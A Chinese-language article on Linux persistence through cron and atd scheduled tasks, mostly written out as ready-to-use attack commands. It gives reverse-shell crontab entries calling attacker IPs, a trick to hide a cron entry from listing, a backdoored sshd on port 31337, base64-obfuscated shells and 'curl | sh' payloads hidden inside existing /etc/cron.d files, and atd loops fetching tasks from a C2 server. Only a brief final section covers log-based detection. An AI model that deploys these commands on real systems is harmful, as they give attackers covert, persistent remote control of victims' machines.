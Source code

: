 计划任务是一类帮助计算机在满足某些时间条件下执行命令的服务。最常见的是crond，此外还有anacron，atd等多种服务。使用这些计划任务进行持久化控制时一定要确认服务有没有开启。不少服务默认RHEL系下是打开的，但是Debian系下是关闭状态。



## 计划任务持久化

计划任务持久化常被用于进行定时反弹shell及挖矿矿工的生命周期管理。虽然计划任务持久化在实际场景下用的非常多，甚至很多人都觉得这块的攻击手法很固定，但是实际上还是可以再深究探讨的。

### crond

```shell
crontab -l | { cat; echo "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/2333 0>&1"; } | crontab -
#使用crontab -l 或cat时有隐藏效果
(crontab -l;printf "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/5555 0>&1;\rno crontab for `whoami`%100c\n")|crontab -
```

上面是最常见的两个计划任务反弹shell命令，命令广为人知，且使用效果好。但是计划任务能反弹shell如果停留在这个层面那就太水了。

crontab命令实际的作用文件是：

```shell
#RHEL:
/var/spool/cron/`whoami`

#Debian:
/var/spool/cron/crontabs/`whoami`
```



而crond服务进行反弹shell的话除了上面的目录以外还能部署到/etc/crontab及/etc/cron.*/

```shell
echo ' * */5 * * * root ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337' >> /etc/crontab
```

部署到/etc/cron.*/目录下的文件是一种更为隐蔽的方案。下面给出一些具体实例

```shell
echo '*/1 * * * * root curl http://1.1.1.1:8083/a|sh' >> /etc/cron.d/man-db
echo '*/1 * * * * root echo L2Jpbi9iYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMy41OC8xMDA5MSAwPCYxIDI+JjEK|base64 -d|sh' >> /etc/cron.d/0hourly
echo '*/1 * * * * root echo L2Jpbi9iYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMy41OC8xMDA5MSAwPCYxIDI+JjEK|base64 -d|sh' >> /etc/cron.d/man-db
```

### atd

使用atd也能模拟出定时任务的效果，只要让它执行完需要执行的命令后在加入新的at任务到atd服务中即可。下面给出两个例子：

**例子1**：本地用shell脚本实现atd版的周期定时反弹shell

```shell
echo "at now+1min <<EOF" >> /tmp/...
echo "bash /tmp/..." >> /tmp/...
echo "EOF" >> /tmp/...
echo "bash -i >& /dev/tcp/192.168.44.123/10092 0>&1;" >> /tmp/...


at now+1min <<EOF
bash /tmp/...
EOF
```

**例子2**：远程请求受害方无法有效追溯的C2服务器获得任务执行

```shell
#c2server
echo "at now+1min <<EOF" >> /tmp/...
echo "curl http://192.168.44.123:10091/a | sh" >> /tmp/...
echo "EOF" >> /tmp/...
echo "bash -i >& /dev/tcp/192.168.44.123/10092 0>&1;" >> /tmp/...
python3 -m http.server 10091

#victim
at now+1min <<EOF
curl http://192.168.44.123:10091/a | sh
EOF
```

## 攻击手法分析与溯源

由于anacron、logrotate都是基于crond来做的，因此，这里主要针对crond及atd服务的攻击手法进行分析。

### crond

使用crond构建定时任务的攻击手法中，crond的相关记录会被记录在/var/log/中的以下日志中，日志中是无法看到具体执行的命令内容的，但是能看到执行定时任务的具体文件，这一定程度上能帮助运维人员加快对攻击的定位。

```shell
audit/audit.log
messages
cron
```



### atd

使用atd构建定时任务的攻击手法中，atd的相关记录会被记录在/var/log/中的以下日志中，除了能从中发现大量的周期性的atd执行以外，无一例外的无法看到具体执行的命令内容。

```shell
./audit/audit.log
./secure
./cron
./messages
```

/var/spool/at 或/var/spool/cron/at*中能看到当前atq队列中待执行的任务的具体内容，这是细粒度的，但是随着时间的推移，如果攻击者放置的持久化文件或C2服务器已消失，那么将无法看到具体执行的内容。

